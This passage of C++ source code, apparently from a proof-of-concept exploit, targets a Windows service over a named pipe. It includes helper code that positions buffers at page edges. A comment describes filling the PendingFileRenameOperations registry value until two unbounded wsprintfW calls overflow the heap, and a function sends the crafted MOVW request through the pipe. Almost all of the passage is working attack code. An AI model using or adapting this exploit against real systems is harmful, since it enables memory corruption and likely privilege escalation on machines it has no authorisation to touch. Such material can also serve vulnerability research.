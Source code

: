 ```C++
	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}
	printf("WriteFile 2 Success\r\n");

	return TRUE;
}

PVOID AllocPrecise(DWORD dwSize)
{
	DWORD dwPageSize = ((dwSize + 4096 - 1) / 4096) * 4096;
	PBYTE pOffset = (PBYTE)VirtualAlloc(NULL, dwPageSize, MEM_COMMIT, PAGE_READWRITE);

	if (dwSize % 0x1000 == 0)
	{
		return pOffset;
	}
	pOffset += 4096 - (dwSize % 4096);
	return pOffset;
}
/////////////////////////////
// End of common pipe code //
/////////////////////////////

//
// Vulnerability
//		Type: 
//			Buffer Overflow (Heap) via wsprintfW		
//
//		Description: 
//			When manually setting the PendingFileRenameOperations for Unicode, there is a buffer overflow
//			opportunity in the heap by a two unbounded calls to wsprintfW
//			Logic: spam this routine to fill up the registry key until it contains nearly 0x4000 bytes worth
//			of strings. Then hit it again. The RegQueryValueEx will pass, because it is < 0x4000 bytes, but
//			you can now wsprintfW up to 1024 bytes of data into that buffer, twice.
//
void Vuln_BufferOverflow_Heap_Wsprintf(PWSTR pszSource, PWSTR pszDest)
{
	PVOID pData = AllocPrecise(0x8000);
	// 434f5057		MOVW
	DWORD dwAction = 0x4D4F5657;
	memcpy(pData, &dwAction, 4);
	PWSTR pszData = (PWSTR)(((PBYTE)pData) + 4);

	wcscat(pszData, pszSource);
	pszData += wcslen(pszSource) + 1;

	wcscat(pszData, pszDest);
	pszData += wcslen(pszDest) + 1;

	PDWORD pdwData = (PDWORD)pszData;
	*pdwData = 1;

	DWORD dwSize = 4 + ((wcslen(pszSource) + wcslen(pszDest) + 2) * 2) + 4;


	CallPipeFunction(0x1003E, (PBYTE)pData, dwSize, NULL, 0);

```